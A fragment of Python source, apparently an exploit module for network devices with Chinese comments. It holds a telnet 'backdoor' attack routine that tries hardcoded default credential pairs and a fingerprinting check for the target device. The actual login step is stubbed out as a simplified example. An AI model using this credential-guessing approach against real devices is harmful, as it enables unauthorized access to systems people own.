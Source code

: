 ```python
        return response and "uid" in response.text
    
    def _vector_telnet_backdoor(self):
        """Telnet后门攻击"""
        try:
            telnet = self.tcp_create()
            self.tcp_connect(telnet)
            
            # 尝试已知后门凭证
            backdoor_creds = [
                ("backdoor:backdoor", "root"),
                ("admin:admin", "#"),
                ("root:12345", "#")
            ]
            
            for creds, prompt in backdoor_creds:
                if self._telnet_login(telnet, creds, prompt):
                    self.tcp_close(telnet)
                    return True
                    
            self.tcp_close(telnet)
        except:
            pass
        
        return False
    
    def _telnet_login(self, telnet, credentials, prompt):
        """Telnet登录尝试"""
        # Telnet交互逻辑
        return False  # 简化示例
    
    def check(self):
        """高级漏洞验证"""
        fingerprints = [
            self._check_http_fingerprint,
            self._check_banner,
            self._check_firmware_version
        ]
        
        confidence = 0
        for fingerprint in fingerprints:
            if fingerprint():
                confidence += 1
        
        return confidence >= 2  # 至少两个特征匹配
    
    def _check_http_fingerprint(self):
        """HTTP指纹识别"""
        response = self.http_request(method="GET", path="/")
        return response and "TargetDevice" in response.text
    
    def _check_banner(self):
        """服务横幅识别"""
        try:
            banner = self.tcp_get_banner()
            return banner and "Target" in banner
        except:
            return False
```

---